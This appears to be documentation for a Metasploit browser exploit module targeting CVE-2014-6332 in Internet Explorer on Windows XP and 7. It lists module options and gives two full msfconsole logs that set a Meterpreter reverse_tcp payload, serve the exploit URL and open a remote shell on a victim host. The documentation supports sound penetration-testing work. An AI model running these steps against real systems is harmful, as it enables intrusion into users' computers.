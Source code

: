 ## Vulnerable Application

This module exploits the Windows OLE Automation array vulnerability, [CVE-2014-6332](https://www.cvedetails.com/cve/cve-2014-6332). The vulnerability is known to affect Internet Explorer 3.0 until version 11 within Windows 95 up to Windows 10, and no patch for Windows XP. However, this exploit will only target Windows XP and Windows 7 box due to the Powershell limitation. Windows XP by defaults supports VBS, therefore it is used as the attack vector. On other newer Windows systems, the exploit will try using Powershell instead.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: ```use exploit/windows/browser/ms14_064_ole_code_execution```
1. Do: ```Choose a payload and set any specific options```
1. Do: ```run```, after a target browses to the generated URL, you should receive a session.

## Options

**TRYUAC**

Ask victim to start as Administrator. This option only works on Windows 7 targets.

**AllowPowershellPrompt**

Allow exploit to try Powershell. If exploiting a Windows 7 target you need to enable this option.

## Scenarios

Example usage against a Windows XP Professional SP3 x86 running Internet Explorer 8.0.6001.18702. The attacker's IP is `192.168.2.3` and the victim's IP is `192.168.2.207`. 

```
msf > use exploit/windows/browser/ms14_064_ole_code_execution
msf exploit(ms14_064_ole_code_execution) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(ms14_064_ole_code_execution) > set LHOST 192.168.2.3
LHOST => 192.168.2.3
msf exploit(ms14_064_ole_code_execution) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.2.3:4444
msf exploit(ms14_064_ole_code_execution) > [*] Using URL: http://0.0.0.0:8080/hGA1Ux
[*] Local IP: http://192.168.2.3:8080/hGA1Ux
[*] Server started.
[*] 192.168.2.207    ms14_064_ole_code_execution - Gathering target information for 192.168.2.207
[*] 192.168.2.207    ms14_064_ole_code_execution - Sending HTML response to 192.168.2.207
[*] 192.168.2.207    ms14_064_ole_code_execution - Sending exploit...
[*] 192.168.2.207    ms14_064_ole_code_execution - Sending VBS stager
[*] Sending stage (957487 bytes) to 192.168.2.207
[*] Meterpreter session 1 opened (192.168.2.3:4444 -> 192.168.2.207:1299) at 2017-03-01 19:07:12 +0100

msf exploit(ms14_064_ole_code_execution) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : MACHINE
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

Example usage against a Windows 7 Professional SP1 x64 running Internet Explorer 8.0.7601.17514. The attacker's IP is `192.168.2.3` and the victim's IP is `192.168.2.208`. Unlike on the Windows XP, target victim will see a popup dialog apear and they will have to allow the execution of the PowerShell script for the exploit to work. You need to set `AllowPowershellPrompt` option to `true` otherwise the exploit won't work on Windows 7.

```
msf > use exploit/windows/browser/ms14_064_ole_code_execution
msf exploit(ms14_064_ole_code_execution) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(ms14_064_ole_code_execution) > set LHOST 192.168.2.3
LHOST => 192.168.2.3
msf exploit(ms14_064_ole_code_execution) > set AllowPowershellPrompt true
AllowPowershellPrompt => true
msf exploit(ms14_064_ole_code_execution) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.2.3:4444
msf exploit(ms14_064_ole_code_execution) > [*] Using URL: http://0.0.0.0:8080/6tdgNjLVij3zs
[*] Local IP: http://192.168.2.3:8080/6tdgNjLVij3zs
[*] Server started.
[*] 192.168.2.208    ms14_064_ole_code_execution - Gathering target information for 192.168.2.208
[*] 192.168.2.208    ms14_064_ole_code_execution - Sending HTML response to 192.168.2.208
[*] 192.168.2.208    ms14_064_ole_code_execution - Sending exploit...
[*] Sending stage (957487 bytes) to 192.168.2.208
[*] Meterpreter session 1 opened (192.168.2.3:4444 -> 192.168.2.208:49197) at 2017-03-01 19:35:12 +0100

msf exploit(ms14_064_ole_code_execution) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : WINDOWS7_X64
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
